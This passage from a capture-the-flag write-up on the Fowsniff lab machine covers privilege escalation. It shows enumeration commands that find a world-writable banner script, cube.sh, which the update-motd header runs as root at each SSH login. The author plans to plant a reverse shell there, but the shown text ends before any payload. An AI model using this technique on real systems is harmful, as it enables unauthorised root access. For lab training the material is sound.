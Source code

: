And here we are in the system. What now? 

As always I decided to firstly follow [G0tmi1k cheatsheet](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) regarding privilage escalation, and once again we have something interesting, while looking for world writable files. 

{% highlight text %}
baksteen@fowsniff:~$ find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print 2>/dev/null
/opt/cube
/var/mail


baksteen@fowsniff:~$ cd /opt/cube
baksteen@fowsniff:/opt/cube$ ls -la
total 12
drwxrwxrwx 2 root   root  4096 Mar 11  2018 .
drwxr-xr-x 6 root   root  4096 Mar 11  2018 ..
-rw-rwxr-- 1 parede users  851 Mar 11  2018 cube.sh
baksteen@fowsniff:/opt/cube$ cat cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
{% endhighlight %}

Okay, we can easily write reverse shell into that file but what will execute it as a root? I decied to do recursive grep with name of this script as the string to find. 

{% highlight text %}
baksteen@fowsniff:/opt/cube$ grep -r "cube.sh" / 2>/dev/null
/home/baksteen/.viminfo:> /opt/cube/cube.sh
/home/baksteen/.viminfo:> /etc/update-motd.d/cube.sh
/var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_xenial_universe_i18n_Translation-en: institutions. The CafeOBJ cube shows the structure of the various
/etc/update-motd.d/00-header:sh /opt/cube/cube.sh
{% endhighlight %}

Now we can see that `00-header` uses `cube.sh` - that's the file containing entry message for remote users - so it should be executed every time a new user logs with `ssh`. 

With that knowledge we can enter reverse shell. 

{% highlight text %}
baksteen@fowsniff:/opt/cube$ cat cube.sh 
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"